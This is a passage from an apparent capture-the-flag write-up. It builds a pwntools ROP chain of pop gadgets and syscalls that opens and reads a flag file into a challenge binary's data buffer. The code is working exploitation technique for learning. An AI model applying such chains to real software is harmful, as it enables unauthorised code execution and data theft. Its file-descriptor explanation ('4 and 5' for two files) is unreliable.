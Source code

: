 We can now pop the address of the name buffer into rsi:
```python
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
# We need to add an extra 0 because the gadget is actually pop rsi, pop r15, ret
rop.raw(0)
```

Now we can set rdx to 0 to complete the gadget.
```python
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(0)

# Add a syscall
rop.raw(rop.find_gadget(['syscall', 'ret']))
```

### Reading the file

Now that the file is open, we need to read it to a buffer. Luckily, we can just reuse the name buffer (equivalently, you
could write the flag to any area in the .data function since the entirety of it is mapped out).

Now we've come to our second big issue. Even though we've opened the file, in order to read it, we need the file descriptor.
Unfortunately, there are no gadgets that allow us to extract the file_descriptor after it gets returned from the openat call.

Fortunately, file descriptors always start at 3 and increase sequentially based on a single program. So if two files are 
open, the descriptors would be 4 and 5. This means we can probably assume that our file is the only file opened by this program,
meaning that our file descriptor is more than likely going to be 3.

We will just read 50 characters to be safe in order to extract the entire flag. (Note: one may be concerned about overflow
since the buffer we are writing to is only 30 characters long. This is no issue because the buffer exists in the .data section, so any overflow
simply overflows into the writable area)

This means our read call is going to be:

```c++
read(3, name_buffer, 50);
```

We can reuse the ROP gadgets we found earlier to produce the following:

```python
# 0 is the rax code for read
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(0)

rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(3)
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
rop.raw(0x0)
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(50)
rop.raw(rop.find_gadget(['syscall', 'ret']))
```
